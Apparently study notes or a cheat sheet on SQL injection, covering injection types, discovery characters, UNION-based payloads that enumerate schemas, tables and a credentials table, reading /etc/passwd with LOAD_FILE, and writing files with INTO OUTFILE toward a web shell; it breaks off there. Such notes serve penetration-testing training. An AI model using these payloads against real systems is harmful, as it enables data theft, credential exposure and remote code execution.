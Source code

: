 Common operations and their precedence:
- Division (`/`), Multiplication (`*`), and Modulus (`%`)
- Addition (`+`) and subtraction (`-`)
- Comparison (`=, >, <, <=, >=, !=, LIKE`)
- NOT (`!`)
- AND (`&&`)
- OR (`||`)

Type of SQL injections:
- In-band: Union based and Error based
- Band: Boolean based and Time based
- Out-of-band

SQLi Discovery:
Try one of the following payloads after the username to see if causes some errors or changes to the page:

| Payload | URL Encoded |
|---------|-------------|
| '       | %27         |
| "       | %22         |
| #       | %23         |
| ;       | %3B         |
| )       | %29         |


SQLi Enumeration:
- Get databases in server: `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- `
- Know the database the web app is using: `cn' UNION select 1,database(),2,3-- `
- Get tables from a database: `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- `
- Get columns from tables from a database: `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- `

Read Files:
- To read a file from the file system the user needs to have the FILE privilege
- To know what is our user we can use the following functions: `SELECT USER()`, `SELECT CURRENT_USER()` and `SELECT user from mysql.user`
- To see if our user is super admin we can use the following query `SELECT super_priv FROM mysql.user` if returns `Y` then we are.
- Dump our privileges using a UNION injection `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- `
- Or like this `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'our_user'@'localhost'"-- `
- If we have all the privileges we can use `SELECT LOAD_FILE('/etc/passwd');` to read `/etc/passwd`
- We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Write Files(RCE):
- To write to the filesystem we need a couple of things: 
    - The user with FILE privilege
    - secure_file_priv variable not enable(empty value)
    - write access to the location
- We can see the var `secure_file_priv`: `SHOW VARIABLES LIKE 'secure_file_priv';` 
- MySQL global variables are stored in a table called global_variables, and as per the documentation, this table has two columns variable_name and variable_value.
- `SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"`
- To write to file we will use `INTO OUTFILE ...` which is used to export the results from queries.
- Like: `SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`
- To write a web shell, we must know the base web directory for the web server (i.e. web root).